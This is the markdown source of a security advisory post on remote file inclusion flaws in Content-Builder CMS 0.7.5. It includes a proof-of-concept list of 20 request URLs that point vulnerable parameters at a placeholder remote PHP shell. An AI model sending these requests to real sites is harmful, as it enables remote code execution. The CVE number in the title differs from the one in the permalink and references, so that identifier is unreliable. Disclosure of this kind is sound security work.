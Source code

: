 ```yaml
---
layout: post
title:  "CVE-2006-3019 – Content-Builder CMS 0.7.5 Remote command execution"
date:   2006-06-11 00:00:00
categories: security
permalink: post/CVE-2006-3172-content-builder-cms-remote-command-execution/
---
```


### Vendor

[http://www.content-builder.de/][contentbuildercms]

[contentbuildercms]:	http://www.content-builder.de/	"Content-Builder CMS"

> phpCMS is more than just a content management system: it is also a templating engine and an application framework.

### Description

Multiple PHP remote file inclusion vulnerabilities in `Content Builder 0.7.5` allow remote attackers to execute arbitrary PHP code via a URL with a trailing slash (/) character in the

1. lang_path parameter to
*	(a) cms/plugins/col_man/column.inc.php,
*	(b) cms/plugins/poll/poll.inc.php,
*	(c) cms/plugins/user_managment/usrPortrait.inc.php,
*	(d) cms/plugins/user_managment/user.inc.php,
*	(e) cms/plugins/media_manager/media.inc.php,
*	(f) cms/plugins/events/permanent.eventMonth.inc.php,
*	(g) cms/plugins/events/events.inc.php,
*	(h) cms/plugins/newsletter2/newsletter.inc.php;
2. path[cb] paramter to
*	(i) modules/guestbook/guestbook.inc.php,
*	(j) modules/shoutbox/shoutBox.php,
*	(k) modules/sitemap/sitemap.inc.php; and the
3. rel parameter to
*	(l) modules/download/overview.inc.php,
*	(m) modules/download/detailView.inc.php,
*	(n) modules/article/fullarticle.inc.php,
*	(o) modules/article/comments.inc.php,
*	(p) modules/article2/overview.inc.php,
*	(q) modules/article2/fullarticle.inc.php,
*	(r) modules/article2/comments.inc.php,
*	(s) modules/headline/headlineBox.php,
*	(t) modules/headline/showHeadline.inc.php.

### Proof of Concept

**~** stands for `[php-shell-url]`

http://example/[cb_path]/cms/plugins/col_man/column.inc.php?lang_path=
**~**/
http://example/[cb_path]/cms/plugins/poll/poll.inc.php?lang_path=
**~**/
http://example/[cb_path]/cms/plugins/user_managment/usrPortrait.inc.php?lang_path=
**~**/
http://example/[cb_path]/cms/plugins/user_managment/user.inc.php?lang_path=
**~**/
http://example/[cb_path]/cms/plugins/media_manager/media.inc.php?lang_path=
**~**/
http://example/[cb_path]/cms/plugins/events/permanent.eventMonth.inc.php?lang_path=
**~**/
http://example/[cb_path]/cms/plugins/events/events.inc.php?lang_path=
**~**/
http://example/[cb_path]/cms/plugins/newsletter2/newsletter.inc.php?lang_path=
**~**/
http://example/[cb_path]/modules/guestbook/guestbook.inc.php?path[cb]=
**~**/
http://example/[cb_path]/modules/shoutbox/shoutBox.php?path[cb]=
**~**/
http://example/[cb_path]/modules/download/overview.inc.php?rel=
**~**/
http://example/[cb_path]/modules/download/detailView.inc.php?rel=
**~**/
http://example/[cb_path]/modules/sitemap/sitemap.inc.php?path[cb]=
**~**/
http://example/[cb_path]/modules/article/fullarticle.inc.php?rel=
**~**/
http://example/[cb_path]/modules/article/comments.inc.php?rel=
**~**/
http://example/[cb_path]/modules/article2/overview.inc.php?rel=
**~**/
http://example/[cb_path]/modules/article2/fullarticle.inc.php?rel=
**~**/
http://example/[cb_path]/modules/article2/comments.inc.php?rel=
**~**/
http://example/[cb_path]/modules/headline/headlineBox.php?rel=
**~**/
http://example/[cb_path]/modules/headline/showHeadline.inc.php?rel=
**~**/

### References

* [http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3172][mitre]
* [http://www.securityfocus.com/bid/18404][securityfocus]
* [http://www.osvdb.org/26344][osvdb]
* [http://secunia.com/advisories/20557][secunia]

[mitre]:			http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3172 "CVE 2006-3172"
[securityfocus]:	http://www.securityfocus.com/bid/18404						"SecurityFocus-18404"
[osvdb]:			http://www.osvdb.org/26344									"OSVDB-26344"
[secunia]:			http://secunia.com/advisories/20557							"Secunia-20557"